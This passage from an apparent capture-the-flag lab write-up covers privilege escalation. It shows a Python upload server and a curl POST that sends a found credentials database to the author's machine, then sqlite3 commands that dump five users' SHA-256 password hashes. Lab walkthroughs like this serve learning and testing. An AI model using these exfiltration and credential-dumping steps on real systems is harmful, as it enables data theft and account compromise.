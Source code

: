 ![Shell as Susan](/assets/img/Perfection/Perfection_05.png)


## Privilege escalation

While looking through the file system i could found a database named **pupilpath_credentials.db** in the **/home/susan/Migration** directory. This is an Sqlite database and we can just send this one to our own machine for further analysis. First we need to setup our upload server using python.

```bash
python3 -m uploadserver 80
```

Next we upload the file using the following curl command  

```bash
curl -X POST http://10.10.16.42/upload -F files=@pupilpath_credentials.db
```

Now that we have access to this database file we could see whats in it. By running the following three commands i was able to see what tables are present and then proceeded to dump the users table. This table contained the password hashes of a couple of users.

```bash
sqlite3 pupilpath_credentials.db
.tables
SELECT * FROM users;
```

![Hashes dumped](/assets/img/Perfection/Perfection_06.png)

Looking at the hashes disclosed i could see that this was using the sha256 algorithm.

```
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

